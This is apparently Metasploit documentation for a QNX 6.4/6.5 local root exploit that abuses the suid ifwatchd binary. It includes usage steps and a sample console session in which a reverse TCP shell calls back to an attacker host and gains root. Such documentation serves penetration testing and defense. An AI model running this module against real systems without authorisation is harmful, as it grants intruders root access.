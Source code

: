 ## Description

  This module attempts to gain root privileges on QNX 6.4.x and 6.5.x
  systems by exploiting the `ifwatchd` suid executable.


## Vulnerable Application

  `ifwatchd` allows users to specify scripts to execute using the `-A`
  command line argument; however, it does not drop privileges when
  executing user-supplied scripts, resulting in execution of arbitrary
  commands as root.

  This module has been tested successfully on:

  * QNX Neutrino 6.5.0 (x86)
  * QNX Neutrino 6.5.0 SP1 (x86)

  QNX Neutrino 6.5.0 Service Pack 1 is available here:

  * http://www.qnx.com/download/feature.html?programid=23665


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/qnx/local/ifwatchd_priv_esc`
  3. `set session <ID>`
  4. `run`
  5. You should get a *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/qnx/local/ifwatchd_priv_esc
  msf exploit(qnx/local/ifwatchd_priv_esc) > set session 1 
  session => 1
  msf exploit(qnx/local/ifwatchd_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(qnx/local/ifwatchd_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing interface arrival event script...
  [*] Executing /sbin/ifwatchd...
  [*] Command shell session 2 opened (172.16.191.188:4444 -> 172.16.191.215:65500) at 2018-03-22 15:18:48 -0400

  id
  uid=100(test) gid=100 euid=0(root)
  uname -a
  QNX localhost 6.5.0 2012/06/20-13:50:50EDT x86pc x86
  ```

